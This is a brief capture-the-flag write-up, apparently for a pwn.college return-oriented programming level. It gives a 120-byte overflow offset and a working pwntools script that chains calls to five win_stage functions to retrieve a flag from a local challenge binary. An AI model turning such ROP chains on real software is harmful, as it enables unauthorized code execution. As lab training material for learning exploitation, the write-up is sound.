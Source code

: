 # Return Oriented Programming 3.0

Running the provided executable file, we are tasked to jump to `win_stage_1` with arguments 1, then jump to `win_stage_2` with parameter `2`, until `win_stage_5`. First, using the De'Bruijn sequence, we found that the offset is 120. Next, i use the `rop` function from `pwn` to simplify the payload.

```python
from pwn import *

elf = context.binary = ELF("/challenge/babyrop_level3.0")

io = process()

print("===== STARTING EXPLOIT =====")

offset = 120

rop = ROP(elf)
rop.raw(b'A' * offset)
rop.win_stage_1(0x1)
rop.win_stage_2(0x2)
rop.win_stage_3(0x3)
rop.win_stage_4(0x4)
rop.win_stage_5(0x5)

io.sendline(rop.chain())

io.recvuntil(b'Leaving!\n')

print(f'Flag: {io.recvline(False)}')
```

Flag:

![[Return Oriented Programming/images/Level3.0.png]]
